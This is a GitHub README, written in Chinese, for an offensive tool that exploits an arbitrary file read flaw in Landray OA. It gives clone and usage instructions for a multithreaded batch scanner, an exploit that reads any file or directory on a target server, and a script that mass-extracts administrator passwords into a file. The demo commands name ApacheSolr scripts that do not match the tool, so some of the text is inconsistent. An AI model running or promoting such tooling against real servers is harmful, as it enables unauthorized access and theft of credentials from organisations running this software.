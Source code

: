 # LandrayReadAnyFile

Landray 蓝凌OA 存在任意文件读取漏洞，可读取服务器任意文件和目录。

本POC可批量扫描目标，EXP可直接利用漏洞独取任意文件。

## 环境

Python：>= Python 3.7

OS：ALL

## 获取

clone

```
git clone https://github.com/Cr4y0nXX/LandrayReadAnyFile.git
```

## POC

使用多线程方式批量对目标url进行漏洞探测，并输出结果。

### Usage

注意：从本POC开始t代表thread线程，T代表timeout请求超时

```
LandrayOAReadAnyFile_POC.py [-h] [-f FILE] [-t THREAD] [-T TIMEOUT] [-o OUTPUT]

optional arguments:
  -h, --help            show this help message and exit
  -f FILE, --file FILE  The url file, default is ./url.txt   目标url文件，一行一个
  -t THREAD, --thread THREAD
                        Number of thread, default is 32   线程数，默认32
  -T TIMEOUT, --Timeout TIMEOUT
                        request timeout(default 3)   请求超时，默认3秒
  -o OUTPUT, --output OUTPUT
                        Vuln url output file, default is
                        ./2021-03-24_11-10-20.txt   输出所有存在漏洞的url，默认以当前时间为文件名
```

所有参数均为可选参数，都有默认值，但必须有目标url文件，一行一个目标地址。

### 演示

```
python ApacheSolrReadAnyFile_POC.py -f ./1.txt
```

![image-20210508165613659](./README.assets/image-20210508165613659.png)

## 🚀EXP1  readAnyFile

单线程的方式，每次对一个目标进行验证和利用，若存在漏洞可输入文件或路径得到结果。

### Usage

```
LandrayOAReadAnyFile_EXP.py [-h] -u URL [-t TIMEOUT]

optional arguments:
  -h, --help            show this help message and exit
  -u URL, --url URL     The target address, (ip:port) or url    指定目标url
  -t TIMEOUT, --timeout TIMEOUT
                        request timeout(default 3)    指定请求超时，默认3秒
```

-u为必选参数。

### 演示

```
python ApacheSolrReadAnyFile_EXP.py -u ip:port
```

![image-20210508165045159](./README.assets/image-20210508165045159.png)

也可输入目录，得到目录下所有文件。

## 🚀EXP2  passExport

多线程读取指定服务端密码文件，获取后台管理员密码。

### 演示

```
python ApacheSolrReadAnyFile_EXP_passExport.py -f 1.txt
```

![image-20210508165045159](./README.assets/image-20210508165045159.png)

即可得到所有存在漏洞的系统管理员密码，并输出到文件。

